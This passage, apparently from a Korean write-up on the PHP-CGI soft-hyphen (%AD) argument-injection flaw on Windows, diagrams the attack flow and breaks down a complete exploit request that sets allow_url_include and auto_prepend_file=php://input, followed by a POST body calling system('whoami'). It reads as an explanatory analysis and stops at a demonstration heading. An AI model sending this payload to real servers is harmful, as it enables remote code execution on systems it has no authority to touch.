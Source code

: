### 3. 공격 흐름

```
┌─────────────────┐
│ 1. 공격자가 요청 │
│   %AD 포함       │
└────────┬────────┘
         │
         ▼
┌─────────────────┐
│ 2. Windows 변환  │
│   %AD → -        │
└────────┬────────┘
         │
         ▼
┌─────────────────┐
│ 3. PHP-CGI 해석  │
│   -d flag 인식   │
└────────┬────────┘
         │
         ▼
┌─────────────────┐
│ 4. 설정 변경     │
│   allow_url_*=1  │
└────────┬────────┘
         │
         ▼
┌─────────────────┐
│ 5. 코드 실행     │
│   php://input    │
└─────────────────┘
```

### 4. 핵심 Exploit 구성요소

```
vulnerable_cgi.php?lang=en%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input

분석:
├─ %AD           : Soft Hyphen (Windows가 '-'로 변환)
├─ d             : 'd'와 결합되어 '-d' 플래그 생성
├─ allow_url_include%3d1  : URL include 활성화 (%3d = '=')
├─ +-d+          : 추가 -d 플래그
└─ auto_prepend_file%3dphp://input : POST 데이터를 PHP로 실행

POST Body:
<?php system('whoami'); ?>
```

---

## 🚀 공격 시연
